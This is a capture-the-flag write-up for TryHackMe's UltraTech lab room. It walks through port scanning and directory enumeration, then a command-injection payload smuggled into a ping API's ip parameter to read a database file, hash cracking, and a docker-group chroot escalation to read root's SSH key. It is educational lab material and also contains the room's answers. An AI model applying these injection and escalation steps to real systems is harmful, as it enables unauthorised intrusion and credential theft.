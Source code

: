 ```yaml
---
title: "UltraTech CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-14
hero: ./images/hero.png
excerpt: "Writeup for the UltraTech CTF room on TryHackMe"
---
```


[TryHackMe | UltraTech CTF](https://tryhackme.com/room/ultratech1)

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.

**[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

**Start this room by hitting the "deploy" button on the right!**

Good luck and more importantly, have fun!

# Part 1

After enumerating the services and resources available on this machine, what did you discover?

---

### Setup ✅

```bash
➜  TryHackMe nmap -A -vv 10.10.124.2
```

```bash
21/tcp   open  ftp     syn-ack vsftpd 3.0.3

22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3

8081/tcp open  http    syn-ack Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 Which software is using the port 8081?

```bash
8081/tcp open  http    syn-ack Node.js Express framework
```

```bash
node.js
```

### #2 Which other non-standard port is used?

Since on our first nmap scan we didn't find the port let's scan all the ports

```bash
➜  ~ TryHackMe nmap -A -vv -p- 10.10.124.2
```

```bash
31331/tcp open
```

### #3 Which software using this port?

```bash
apache
```

### #4 Which GNU/Linux distribution seems to be used?

```bash
ubuntu
```

### #5 The software using the port 8080 is a REST api, how many of its routes are used by the web application?

<div className="Image__Medium">
  <img src="https://imgur.com/HJrW4R2.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe gobuster dir -u http://10.10.124.2:8081/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.2:8081/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/13 17:44:16 Starting gobuster
===============================================================
/auth (Status: 200)
```

<div className="Image__Medium">
  <img src="https://imgur.com/8hEyF02.png" alt="blog_image" />
</div>

# Part 3

---

Now that you know which services are available, it's time to exploit them !

Did you find somewhere you could try to login ? Great !

Quick and dirty login implementations usually goes with poor data management.

There must be something you can do to explore this machine more thoroughly..

### #1 There is a database lying around, what is its filename?

<div className="Image__Medium">
  <img src="https://imgur.com/tuO0kgU.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/
```

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jun 13 18:30:24 2020
URL_BASE: http://10.10.124.2:31331/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.124.2:31331/ ----
==> DIRECTORY: http://10.10.124.2:31331/css/
+ http://10.10.124.2:31331/favicon.ico (CODE:200|SIZE:15086)
==> DIRECTORY: http://10.10.124.2:31331/images/
+ http://10.10.124.2:31331/index.html (CODE:200|SIZE:6092)
==> DIRECTORY: http://10.10.124.2:31331/javascript/
==> DIRECTORY: http://10.10.124.2:31331/js/
+ http://10.10.124.2:31331/robots.txt (CODE:200|SIZE:53)
+ http://10.10.124.2:31331/server-status (CODE:403|SIZE:302)
```

<div className="Image__Medium">
  <img src="https://imgur.com/JwcnH47.png" alt="blog_image" />
</div>

```bash
Sitemap: /utech_sitemap.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/0QGLxrF.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/4oxDK1P.png" alt="blog_image" />
</div>

As you can see there is some script on the bottom of the page

<div className="Image__Medium">
  <img src="https://imgur.com/bHSVNrk.png" alt="blog_image" />
</div>

```bash
function getAPIURL() {
return `${window.location.hostname}:8081`
function checkAPIStatus() {
const req = new XMLHttpRequest();
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

Let's try if we can ping something with the api

<div className="Image__Medium">
  <img src="https://imgur.com/k6dMvGz.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/NiZaChE.png" alt="blog_image" />
</div>

```bash
utech.db.sqlite
```

### #2 What is the first user's password hash?

After some tries, something cool happened, if we cat the database name we can see the user's password hash

```bash
http://10.10.124.2:8081/ping?ip=`cat%20utech.db.sqlite`
```

<div className="Image__Medium">
  <img src="https://imgur.com/BFY62ek.png" alt="blog_image" />
</div>

```bash
r00tf357a0c52799563c7c7b76c1e7543a32
```

### #3 What is the password associated with this hash?

Let's see if in the crack station database we can have the user's password

<div className="Image__Medium">
  <img src="https://imgur.com/ULh9XYu.png" alt="blog_image" />
</div>

Yep ! That worked 🤤

```bash
password : n100906
```

# Part 4

---

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

---

### #1 What are the first 9 characters of the root user's private SSH key?

We can try the api "/auth" 😵

<div className="Image__Medium">
  <img src="https://imgur.com/hQLygDy.png" alt="blog_image" />
</div>

```bash
http://10.10.124.2:8081/auth?login=r00t&password=n100906
```

<div className="Image__Medium">
  <img src="https://imgur.com/k8UD4e5.png" alt="blog_image" />
</div>

As you can see the is the group docker let's try something

[docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/)

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

<div className="Image__Medium">
  <img src="https://imgur.com/dlyIsfn.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/WZFA2m7.png" alt="blog_image" />
</div>

```bash
MIIEogIBA
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
